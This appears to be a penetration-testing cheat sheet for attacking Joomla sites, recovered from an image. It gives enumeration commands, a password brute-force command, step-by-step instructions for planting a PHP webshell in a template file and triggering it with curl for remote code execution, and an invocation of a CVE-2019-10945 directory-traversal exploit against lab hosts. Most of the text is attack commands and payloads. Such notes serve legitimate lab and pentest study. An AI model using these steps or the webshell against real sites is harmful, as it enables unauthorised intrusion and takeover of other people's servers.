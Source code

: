 # joomla
## enumeration
### droopescan
sudo pip3 install droopescan  
droopescan scan joomla --url http://10.10.10.1/  
### joomlascan
sudo python2.7 -m pip install urllib3  
sudo python2.7 -m pip install certifi  
sudo python2.7 -m pip install bs4  
python2.7 joomlascan.py -u http://10.10.10.1  
## bruteforcing credentials
### joomla-brute.py
sudo python3 joomla-brute.py -u http://10.10.10.1 -w password.txt -usr admin  
## vulnerabilites
### template editing vulnerability
<joomla_site_url>/administrator/  
login with admin creds  
choose on the site:   extensions / templates / styles (or search for templates somewhere, and then styles)  
click on a template name !under the template column! (not the style column)  
choose a file on the left (like error.php) and edit it  
webshell example:   system($_GET['cmd']);  
click Save and Close at the top  
rce:   curl -s http://<joomla_site_url>/templates/protostar/error.php?cmd=whoami  
### CVE-2019-10945
https://www.exploit-db.com/exploits/46710  
https://github.com/dpgg101/CVE-2019-10945  
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /  
